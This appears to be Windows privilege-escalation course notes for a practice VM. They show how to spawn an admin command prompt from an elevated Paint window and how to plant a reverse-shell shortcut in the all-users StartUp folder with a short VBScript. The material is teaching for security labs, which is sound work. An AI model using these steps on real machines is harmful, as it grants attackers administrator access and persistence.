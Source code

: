 # Insecure GUI Apps (Citrix Method)

On some (older) versions of Windows, users could be granted the permission to run certain GUI apps with administrator privileges.

There are often numerous ways to spawn command prompts from within GUI apps, including using native Windows functionality.

Since the parent process is running with administrator privileges, the spawned command prompt will also run with these privileges.

I call this the “Citrix Method” because it uses many of the same techniques used to break out of Citrix environments.

### Privilege Escalation
1. Log into the Windows VM using the GUI with the “user” account.
2. Double click on the “AdminPaint” shortcut on the Desktop.
3. Open a command prompt and run:
```
tasklist /V | findstr mspaint.exe
```
4. In Paint, click File, then Open.
5. In the navigation input, replace the contents with:
file://c:/windows/system32/cmd.exe
6. Press Enter. A command prompt should open running with admin privileges.

# Startup Apps

Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory.

Windows also has a startup directory for apps that should start for all users:
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

Note that shortcut files (.lnk) must be used. The following VBScript can be used
to create a shortcut file:
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

## Privilege Escalation
1. Use accesschk.exe to check permissions on the StartUp
directory:
```
.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```
2. Note that the BUILTIN\Users group has write access to
this directory.
3. Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.
4. Run the script using cscript:
```
cscript CreateShortcut.vbs
```
5. Start a listener on Kali, then log in as the admin user to
trigger the exploit.
